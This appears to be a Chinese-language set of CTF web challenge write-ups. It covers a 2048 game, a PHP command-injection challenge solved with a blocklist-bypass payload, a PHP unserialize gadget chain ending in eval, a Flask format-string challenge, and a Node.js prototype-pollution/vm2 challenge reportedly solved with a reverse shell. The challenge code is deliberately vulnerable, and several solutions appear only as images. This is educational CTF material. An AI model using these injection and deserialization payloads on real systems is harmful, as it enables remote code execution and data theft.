#### [2048 - Bugku CTF平台](https://ctf.bugku.com/challenges/detail/id/1249.html)

进入页面：

是一个2048的游戏，查看前端源代码，发现与flag有关的js代码：

在控制台调用该函数提示：

将分数设置为600000分后再次调用该函数得到flag：

#### [babeRCE - Bugku CTF平台](https://ctf.bugku.com/challenges/detail/id/1250.html)

给出源代码：

```php
<?php

$rce = $_GET['rce'];
if (isset($rce)) {
    if (!preg_match("/cat|more|less|head|tac|tail|nl|od|vi|vim|sort|flag| |\;|[0-9]|\*|\`|\%|\>|\<|\'|\"/i", $rce)) {
        system($rce);
    }else {
        echo "hhhhhhacker!!!"."\n";
    }
} else {
    highlight_file(__FILE__);
}
```

```
payload：?rce=ca\t${IFS}f\lag.php
利用\绕过单词匹配
```



#### [Do you know HTTP - Bugku CTF平台](https://ctf.bugku.com/challenges/detail/id/1251.html)









得到flag：

#### [unserialize - Bugku CTF平台](https://ctf.bugku.com/challenges/detail/id/1252.html)

给出了源代码：

```php
<?php

class entrance
{
    public $start;

    function __construct($start)
    {
        $this->start = $start;
    }

    function __destruct()  //销毁时执行
    {
        $this->start->helloworld();
    }
}

class springboard
{
    public $middle;

    function __call($name, $arguments) // 被当作函数时执行
    {
        echo $this->middle->hs;
    }
}

class evil
{
    public $end;

    function __construct($end)
    {
        $this->end = $end;
    }

    function __get($Attribute) //被当作字符串时执行
    {
        eval($this->end);  // rce执行点位
    }
}

if(isset($_GET['serialize'])) {
    unserialize($_GET['serialize']);
} else {
    highlight_file(__FILE__);
}
```

```php
#POC链：entrance -> springboard -> evil
<?php

class entrance
{
    public $start;
}

class springboard
{
    public $middle;
}

class evil
{
    public $end;
}

$serialize = new entrance();
$serialize -> start = new springboard();
$serialize -> start -> middle = new evil();
$serialize -> start -> middle -> end = "phpinfo();";

var_dump(serialize($serialize));
?>
```

在phpinfo内找到flag：


#### [地狱通讯 - Bugku CTF平台](https://ctf.bugku.com/challenges/detail/id/1260.html)

给出了源代码：

```py

from flask import Flask, render_template, request
from flag import flag, FLAG
import datetime

app = Flask(__name__)


@app.route("/", methods=['GET', 'POST'])
def index():
    f = open("app.py", "r")
    ctx = f.read()
    f.close()
    f1ag = request.args.get('f1ag') or ""
    exp = request.args.get('exp') or ""
    flAg = FLAG(f1ag)
    message = "Your flag is {0}" + exp
    if exp == "":
        return ctx
    else:
        return message.format(flAg)


if __name__ == "__main__":
    app.run()

```


#### [[HZNUCTF 2023 final\]eznode - NSSCTF](https://www.nssctf.cn/problem/3607)

扫描目录得到app.js，访问得到源代码：

```js

const express = require('express');
const app = express();
const { VM } = require('vm2');

app.use(express.json());

const backdoor = function () {
    try {
        new VM().run({}.shellcode);
    } catch (e) {
        console.log(e);
    }
}

const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (a, b) => {
    for (var attr in b) {
        if (isObject(a[attr]) && isObject(b[attr])) {
            merge(a[attr], b[attr]);
        } else {
            a[attr] = b[attr];
        }
    }
    return a
}
const clone = (a) => {
    return merge({}, a);
}


app.get('/', function (req, res) {
    res.send("POST some json shit to /.  no source code and try to find source code");
});

app.post('/', function (req, res) {
    try {
        console.log(req.body)
        var body = JSON.parse(JSON.stringify(req.body));
        var copybody = clone(body)
        if (copybody.shit) {
            backdoor()
        }
        res.send("post shit ok")
    }catch(e){
        res.send("is it shit ?")
        console.log(e)
    }
})

app.listen(3000, function () {
    console.log('start listening on port 3000');
});
```

使用反弹shell连接到靶机拿到flag：





